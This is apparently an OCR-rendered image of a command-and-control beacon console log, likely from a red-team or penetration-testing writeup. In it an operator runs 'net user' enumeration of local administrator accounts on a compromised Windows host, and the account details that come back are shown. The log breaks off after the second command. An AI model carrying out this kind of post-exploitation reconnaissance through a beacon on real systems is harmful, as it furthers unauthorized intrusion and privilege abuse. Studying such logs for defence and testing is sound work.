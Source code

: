 ```

[10/06 16:39:57] beacon> shell net user "Administrator"
[10/06 16:39:57] [*] Tasked beacon to run: net user "Administrator"
[10/06 16:40:00] [+] host called home, sent: 55 bytes
[10/06 16:40:00] [+] received output:
User name                    Administrator

Full Name                    

Comment                      Built-in account for administering the computer/domain

User's comment               

Country/region code          000 (System Default)

Account active               No

Account expires              Never



Password last set            3/28/2018 3:51:52 PM

Password expires             Never

Password changeable          3/29/2018 3:51:52 PM

Password required            Yes

User may change password     Yes



Workstations allowed         All

Logon script                 

User profile                 

Home directory               

Last logon                   4/20/2018 7:09:36 AM



Logon hours allowed          All



Local Group Memberships      *Administrators       

Global Group memberships     *None                 

The command completed successfully.




[10/06 16:40:35] beacon> shell net users justalocaladmin
[10/06 16:40:35] [*] Tasked beacon to run: net users justalocaladmin
[10/06 16:40:36] [+] host called home, sent: 56 bytes
[10/06 16:40:36] [+] received output:
User name                    justalocaladmin
```